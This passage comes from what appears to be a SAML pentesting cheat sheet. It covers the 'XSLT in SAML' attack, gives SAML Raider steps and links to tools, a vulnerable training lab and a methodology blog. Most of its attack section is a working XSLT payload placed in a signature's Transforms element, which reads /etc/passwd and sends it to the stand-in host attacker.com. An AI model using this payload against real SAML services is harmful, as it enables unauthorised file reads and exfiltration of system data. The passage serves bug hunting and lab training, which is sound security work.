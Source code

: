 7. **XSLT in SAML:**

```python
**NOTE:**
- The attack doesn’t require a valid signature to succeed.
- The XSLT transformation occurs before the digital signature is processed for verification.

# Steps to Perform:
1**. Intercept the SAML Response in SAML Raider.
2. Add XSLT payload in side transforms assertion like below.
		<ds:Signature xmlns:ds="http://www.w3.org/2000/09/xmldsig#">
	  ...
	    <ds:Transforms>
	      <ds:Transform>
	        <xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
	          <xsl:template match="doc">
	            <xsl:variable name="file" select="unparsed-text('/etc/passwd')"/>
	            <xsl:variable name="escaped" select="encode-for-uri($file)"/>
	            <xsl:variable name="attackerUrl" select="'http://attacker.com/'"/>
	            <xsl:variable name="exploitUrl" select="concat($attackerUrl,$escaped)"/>
	            <xsl:value-of select="unparsed-text($exploitUrl)"/>
	          </xsl:template>
	        </xsl:stylesheet>
	      </ds:Transform>
	    </ds:Transforms>
	  ...
		</ds:Signature>
3. Forward the request and check response.
4. Done Escalate Further.!! 
```

# Tools:

[SAML Encoder - Online SAML Request-Response Encode Tool - Base64 - Deflate](https://www.samltool.com/encode.php)

[https://github.com/CompassSecurity/SAMLRaider](https://github.com/CompassSecurity/SAMLRaider)

[GitHub - fadyosman/SAMLExtractor: A tool that can take a URL or list of URL and prints back SAML consume URL.](https://github.com/fadyosman/SAMLExtractor)

# Labs:

[GitHub - yogisec/VulnerableSAMLApp: Vulnerable SAML infrastructure training applicaiton](https://github.com/yogisec/VulnerableSAMLApp)

# Reference:

[How to Hunt Bugs in SAML; a Methodology - Part I -](https://epi052.gitlab.io/notes-to-self/blog/2019-03-07-how-to-test-saml-a-methodology/)
